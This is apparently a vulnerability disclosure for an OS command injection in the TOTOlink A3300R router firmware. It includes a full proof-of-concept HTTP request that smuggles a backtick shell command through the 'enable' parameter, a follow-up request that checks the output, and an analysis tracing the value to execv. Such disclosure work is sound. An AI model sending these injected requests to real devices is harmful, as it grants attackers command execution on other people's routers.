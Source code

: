 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWiFiScheduleCfg` request,`enable` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C6F41C563E86A379 HTTP/1.1
Host: itotolink.net
Content-Length: 94
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/wifi_schedule.html?token=C6F41C563E86A379&idx=0
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"wifiIdx":"0","enable":"1`ls>/web/cmdi13.txt`","isGuest":"0","topicurl":"setWiFiScheduleCfg"}
```

injection the command "ls>/web/cmdi13.txt"

![image-20240119142030763](D:\typora 图片\image-20240119142030763.png)

check the result.

```
GET /cmdi13.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/css,*/*;q=0.1
Referer: http://itotolink.net/advance/wifi_schedule.html?token=C6F41C563E86A379&idx=0
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119142035647](D:\typora 图片\image-20240119142035647.png)

## Analysis

sub_417A80 will handle the `setWiFiScheduleCfg` request. sub_417A80 get `enable` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119142637499](D:\typora 图片\image-20240119142637499.png)

![image-20240119140315288](D:\typora 图片\image-20240119140315288.png)



`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](D:\typora 图片\image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](D:\typora 图片\image-20240109131330610.png)

